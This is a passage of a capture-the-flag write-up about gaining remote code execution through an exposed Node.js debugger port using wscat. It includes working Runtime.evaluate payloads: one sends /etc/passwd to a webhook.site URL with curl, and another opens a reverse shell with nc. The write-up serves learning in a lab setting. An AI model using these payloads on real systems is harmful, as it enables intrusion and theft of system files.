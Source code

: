![](https://hackmd.io/_uploads/H1glxOw2n.png)

So now that you have the debugger socket, you can use `wscat` to transmit data and execute it.

PoC refer here: `https://ibukifalling.github.io/2022/11/11/rce-via-Nodejs-debug-port`

- using `wscat`:

I noticed this in the Dockerfile as well.
```bash
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: 
/bin/cat /root/flag.txt" >> /etc/sudoers
```
```js
json payload: `{"id":1,"method":"Runtime.evaluate","params":{"expression":"require = process.mainModule.require; execSync = require(\"child_process\").execSync; execSync(\"curl -X POST -d @/etc/passwd https://webhook.site/d0534853-10c9-4fc5-826a-fd44f6fb69b4\");"}}
```

```bash
┌──(taiwhis㉿kali)-[~]
└─$ wscat -c ws://127.0.0.1:9229/de92aeae-9254-4e2c-8b3a-cfc5fcf5a358
Connected (press CTRL+C to quit)
>{"id":1,"method":"Runtime.evaluate","params":{"expression":"require = process.mainModule.require; execSync = require(\"child_process\").execSync; execSync(\"curl -X POST -d @/etc/passwd https://webhook.site/d0534853-10c9-4fc5-826a-fd44f6fb69b4\");"}}
< {"id":1,"result":{"result":{"type":"object","subtype":"typedarray","className":"Uint8Array","description":"Uint8Array(0)","objectId":"1236463280690069003.1.1"}}}
```


Result:

![](https://hackmd.io/_uploads/SJtRnOvhh.png)


Oke RCE and get flag.
```js
{"id":1,"method":"Runtime.evaluate","params":{"expression":"require = process.mainModule.require; execSync = require(\"child_process\").execSync; execSync(\"nc 10.0.2.15 8000 -e /bin/sh\");"}}
```

My teammate has successfully solved this challenge. This is new knowledge for me. :heart_decoration: 

Flag: `ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}`

![](https://media.giphy.com/media/pPzjpxJXa0pna/giphy.gif)
